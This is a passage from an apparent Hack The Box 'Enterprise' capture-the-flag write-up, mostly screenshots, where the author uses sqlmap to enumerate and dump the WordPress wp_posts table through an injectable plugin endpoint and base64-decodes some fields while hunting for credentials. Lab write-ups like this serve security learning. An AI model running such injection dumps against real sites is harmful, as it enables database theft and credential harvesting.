 <img src="{{ site.img_path }}/enterprise_writeup/Enterprise_030.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_031.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now if I'm stuck, but thinking back a bit, I kept in my mind spinning the information I got from listing the posts based on their IDs, and some were related to passwords. Now with `sqlmap` I leak information from the posts, and the good thing is that this tool generates **.csv** files that I can then examine. I find some strings encoded in **Base64** but without any value and then finally I found some credentials.

```bash
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress --tables
#    --> Table wp_posts

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_posts --columns
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_posts -C ID,post_content --dump
#    --> /home/al3j0/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv

cat /home/al3j0/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv
cat /home/al3j0/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | sed 's/\\n/\n/g'
cat /home/al3j0/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv | sed 's/\\n/\n/g' | grep -v '<blank>' | sed 's/\\r/\r/g'

echo YTo0OntzOjU6InRpdGxlIjtzOjc6IkZpbmQgVXMiO3M6NDoidGV4dCI7czoxNjQ6IjxzdHJvbmc+QWRkcmVzczwvc3Ryb25nPgoxMjMgTWFpbiBTdHJlZXQKTG9uZG9uIEVDMSA0VUsKCjxzdHJvbmc+SG91cnM8L3N0cm9uZz4KTW9uZGF5Jm1kYXNoO0ZyaWRheTogOTowMEFNJm5kYXNoOzU6MDBQTQpTYXR1cmRheSAmYW1wOyBTdW5kYXk6IDExOjAwQU0mbmRhc2g7MzowMFBNIjtzOjY6ImZpbHRlciI7YjoxO3M6NjoidmlzdWFsIjtiOjE7fQ== | base64 -d; echo

echo YTo0OntzOjU6InRpdGxlIjtzOjE1OiJBYm91dCBUaGlzIFNpdGUiO3M6NDoidGV4dCI7czo4NToiVGhpcyBtYXkgYmUgYSBnb29kIHBsYWNlIHRvIGludHJvZHVjZSB5b3Vyc2VsZiBhbmQgeW91ciBzaXRlIG9yIGluY2x1ZGUgc29tZSBjcmVkaXRzLiI7czo2OiJmaWx0ZXIiO2I6MTtzOjY6InZpc3VhbCI7YjoxO30= | base64 -d; echo

echo YToxOntzOjU6InRpdGxlIjtzOjY6IlNlYXJjaCI7fQ== | base64 -d; echo
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_032.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_033.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_034.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_035.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_036.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_037.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_038.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_039.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
